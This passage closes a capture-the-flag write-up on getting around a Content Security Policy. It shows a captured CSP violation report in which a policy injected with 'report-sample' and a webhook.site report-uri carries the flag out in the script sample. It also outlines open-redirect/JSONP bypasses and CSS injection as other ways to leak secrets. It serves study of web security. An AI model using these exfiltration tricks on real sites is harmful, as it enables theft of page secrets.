 From the browser, you can see what the sent request looks like:

```
{
  "csp-report": {
    "document-uri": "http://localhost:3000/abc",
    "referrer": "",
    "violated-directive": "script-src-elem",
    "effective-directive": "script-src-elem",
    "original-policy": "script-src 'report-sample'; report-uri https://webhook.site/419d518f-922b-4e1e-8583-65596fae1c95",
    "disposition": "report",
    "blocked-uri": "inline",
    "line-number": 4,
    "source-file": "http://localhost:3000/abc",
    "status-code": 200,
    "script-sample": "flag{test_flag}"
  }
}
```

With this, the flag can be easily obtained and the work is done.

## Other Possibilities

When writing this article, I thought about other possibilities at each stage, but under the strict conditions of the original question, the possible paths are very limited. However, if some changes are made to the original question and some restrictions are relaxed, there may be other possibilities.

### Open redirect

This is the only other solution I can think of under the condition that the original question remains unchanged. If you find an open redirect or JSONP for `https://www.google.com/recaptcha/` or `https://www.gstatic.com/recaptcha/`, you can bypass CSP to execute JavaScript.

### CSS injection

If CSP is relaxed, the script part is still blocked, but other style-related parts such as style-src, font-src, and img-src are not blocked, then there may be a chance to use [CSS injection](https://web.archive.org/web/20240324012538/https://x-c3ll.github.io/posts/CSS-Injection-Primitives/) to slowly leak the flag.
